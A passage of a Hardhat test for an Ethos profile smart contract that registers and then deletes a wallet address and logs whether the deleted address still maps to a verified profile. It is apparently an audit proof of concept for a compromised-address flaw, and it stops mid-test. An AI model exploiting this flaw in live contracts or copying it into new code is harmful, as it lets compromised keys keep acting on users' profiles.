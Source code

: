 ```javascript
        userA = await deployer.createUser();
        userB = await deployer.createUser();
        newAddress = await deployer.newWallet();
        await setMaxAddresses(DEFAULT_MAX_ADDRESSES);
    });

    async function registerAddress(
        user: EthosUser,
        address: string,
    ): Promise<ContractTransactionResponse> {
        const randValue = Math.floor(Math.random() * 1000000);
        const signature = await common.signatureForRegisterAddress(
            address,
            user.profileId.toString(),
            randValue.toString(),
            EXPECTED_SIGNER,
        );

        return await ethosProfile
            .connect(user.signer)
            .registerAddress(address, user.profileId, randValue, signature);
    }

    async function setMaxAddresses(maxAddresses: number): Promise<ContractTransactionResponse> {
        return await ethosProfile.connect(deployer.ADMIN).setMaxAddresses(maxAddresses);
    }

    it('should allow compromised user to execute operations freely', async () => {
        console.log('profileId of the userA: ', userA.profileId);
        let profile = await ethosProfile.getProfile(userA.profileId);
        console.log('Profile\'s number of addresses: ', profile.addresses.length);
        console.log('Profile\'s addresses: ', profile.addresses);


        console.log('-------------------- Register Address ---------------------')
        await registerAddress(userA, newAddress.address);
        let { verified, archived, mock, profileId } = await ethosProfile.connect(userA.signer).profileStatusByAddress(newAddress.address);

        console.log('Profile\'s ID of the new address: ', profileId);
        console.log('Is the profile verified based on the new address: ', verified);

        profile = await ethosProfile.getProfile(userA.profileId);
        console.log('Profile\'s number of addresses: ', profile.addresses.length);
        console.log('Profile\'s addresses: ', profile.addresses);


        console.log('-------------------- Delete Address---------------------');
        await ethosProfile.connect(userA.signer).deleteAddressAtIndex(1);

        const isCompormised = await ethosProfile.isAddressCompromised(newAddress.address);
        console.log('Is the new address compromised ', isCompormised);

        profile = await ethosProfile.getProfile(userA.profileId);
        console.log('Profile\'s number of addresses: ', profile.addresses.length);
        console.log('Profile\'s addresses: ', profile.addresses);

        const addressBelongsToProfile = await ethosProfile.addressBelongsToProfile(newAddress.address, userA.profileId);
        console.log('Does the removed address belong to the profile: ', addressBelongsToProfile);

        const verifiedProfile = await ethosProfile.verifiedProfileIdForAddress(newAddress.address);
        console.log('Verify profile by removed address: ', verifiedProfile);
```